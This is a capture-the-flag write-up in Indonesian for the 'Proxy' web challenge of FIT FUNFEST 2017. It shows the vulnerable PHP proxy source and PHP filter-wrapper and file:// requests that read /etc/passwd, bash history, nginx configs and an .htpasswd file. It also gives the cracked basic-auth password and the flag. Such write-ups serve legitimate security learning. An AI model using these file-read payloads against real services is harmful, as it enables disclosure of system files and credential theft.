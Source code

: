 ```yaml
---
layout: post
title: 'Writeup FIT FUNFEST 2017 : Proxy'
description: Writeup Proxy FIT FUNFEST CTF
modified: 'Thu Mar 16 2017 07:00:00 GMT+0700 (WIB)'
category: Web Exploitation
tags: FIT CTF
imagefeature: /images/fit-funfest.png
mathjax: false
chart: null
comments: true
featured: true
published: true
private: 'false'
---
```



### Soal

```
http://128.199.66.146:12121/proxy/
```

### Solusi

Diberikan website seperti layanan proxy kita bisa mengakses website lain melalui
layanan tersebut kemudian kita memanfaatkan Wrappers yang tidak di blacklist
untuk membaca file config dan menemukan folder secret yang di authentikasi
dengan Basic HTTP Authentication kami melakukan decrpyt password .htpasswd
yang di gunakan algoritma {SHA} kemudian kami mengauthentikasi dan
mendapatkan flag

Setelah melakukan analisa kepada layanan yang tersedia yaitu proxy untuk
membuka website di input field nya ada placeholder http atau https tapi ternyata ada beberapa wrappers yang masih bisa di gunakan karena tidak di disable atau di blacklist. Pertama kita bisa mendapatkan source code layanan proxy dalam base64 dan melakukan decode untuk membaca source code aslinya dengan command

`curl http://128.199.66.146:12121/proxy/?url=php://filter/convert.base64-encode/resource=index.php | base64 -d > index.php`

```php
<?php
error_reporting(0);
if (isset($_GET['url'])) {
$url = $_GET['url'];
if (filter_var($url, FILTER_VALIDATE_URL) === FALSE) {
die('Not a valid URL');
}
$content = file_get_contents($url);
die($content);
}
?>
<header>
<title>Proxy</title>
<link
href='http://fonts.googleapis.com/css?family=Open+Sans+Condensed:300'
rel='stylesheet' type='text/css'>
<style type="text/css">
.form-style-8{
font-family: 'Open Sans Condensed', arial, sans;
width: 500px;
padding: 30px;
background: #FFFFFF;
margin: 50px auto;
box-shadow: 0px 0px 15px rgba(0, 0, 0, 0.22);
-moz-box-shadow: 0px 0px 15px rgba(0, 0, 0, 0.22);
-webkit-box-shadow: 0px 0px 15px rgba(0, 0, 0, 0.22);
}
.form-style-8 h2{
background: #4D4D4D;
text-transform: uppercase;
font-family: 'Open Sans Condensed', sans-serif;
color: #797979;
font-size: 18px;
font-weight: 100;
padding: 20px;
margin: -30px -30px 30px -30px;}
.form-style-8 input[type="text"],
.form-style-8 input[type="date"],
.form-style-8 input[type="datetime"],
.form-style-8 input[type="email"],
.form-style-8 input[type="number"],
.form-style-8 input[type="search"],
.form-style-8 input[type="time"],
.form-style-8 input[type="url"],
.form-style-8 input[type="password"],
.form-style-8 textarea,
.form-style-8 select
{
box-sizing: border-box;
-webkit-box-sizing: border-box;
-moz-box-sizing: border-box;
outline: none;
display: block;
width: 100%;
padding: 7px;
border: none;
border-bottom: 1px solid #ddd;
background: transparent;
margin-bottom: 10px;
font: 16px Arial, Helvetica, sans-serif;
height: 45px;
}
.form-style-8 textarea{
resize:none;
overflow: hidden;
}
.form-style-8 input[type="button"],
.form-style-8 input[type="submit"]{
-moz-box-shadow: inset 0px 1px 0px 0px #45D6D6;
-webkit-box-shadow: inset 0px 1px 0px 0px #45D6D6;
box-shadow: inset 0px 1px 0px 0px #45D6D6;
background-color: #2CBBBB;
border: 1px solid #27A0A0;
display: inline-block;
cursor: pointer;
color: #FFFFFF;
font-family: 'Open Sans Condensed', sans-serif;font-size: 14px;
padding: 8px 18px;
text-decoration: none;
text-transform: uppercase;
}
.form-style-8 input[type="button"]:hover,
.form-style-8 input[type="submit"]:hover {
background:linear-gradient(to bottom, #34CACA 5%, #30C9C9 100%);
background-color:#34CACA;
}
</style>
</header>
<body>
<div class="form-style-8">
<h2>PROXY</h2>
<form>
<input type="text" name="url" placeholder="http:// or https://" />
</form>
</div>
</body>
```

Kurang lebih source code tersebut seperti di atas 

Kemudian kami mencoba mencari cara untuk mendapatkan Remote Code Injection
karena kami belum menemukan lokasi flag berada.
Kami juga mencoba membaca beberapa file berikut dengan wrappers file://

```
http://128.199.66.146:12121/proxy/index.php?url=file:///etc/passwd
http://128.199.66.146:12121/proxy/index.php?url=file:///home/web-x/.bash_history
http://128.199.66.146:12121/proxy/index.php?url=file:///etc/hosts
http://128.199.66.146:12121/proxy/index.php?url=file:///etc/nginx/sites-available/default
http://128.199.66.146:12121/proxy/index.php?url=file:///etc/nginx/sites-available/web-x
http://128.199.66.146:12121/proxy/index.php?url=file:///etc/nginx/sites-available/web-y
```

Pada file /etc/nginx/sites-available/default kami melihat ada directory rahasia yang di
proteksi dengan ​ HTTP Basic Authentication

```
location /secret_page_uksw/ {
try_files $uri $uri/ =404;
autoindex on;
auth_basic "Restricted Content";
auth_basic_user_file /etc/nginx/.htpasswd;
}
```

Kita baca file .htpasswd nya dengan url berikut

`http://128.199.66.146:12121/proxy/index.php?url=file:///etc/nginx/.htpasswd`

isinya seperti ini 

`fit-uksw:{SHA}NABfMvw51MY+i1z+THOgpy9oysc=`

![dectypt-sha1-htpasswd.png](/images/dectypt-sha1-htpasswd.png)


Kemudian kami crack password yang ada pada .htpasswd tersebut sehingga di
temukan plain text dari password adalah “indonesia45”
Selanjutnya kita cari di mana folder /secret_page_uksw/ berada pertama coba di
http://128.199.66.146:12121/secret_page_uksw/ namun masih not found, kami
coba baca lagi konfigurasi nginx nya ternyata port nya ngak di custom, dia
menggunakan port default yang terletak pada http://128.199.66.146/secret_page_uksw/ Kemudian kami masukan username danpassword untuk basic authentication **fit-uksw:indonesia45**

![secret-page-proxy-flag.png]({{site.baseurl}}/images/secret-page-proxy-flag.png)

**FIT2017{not_only_know_web_bug_but_also_server_config}**
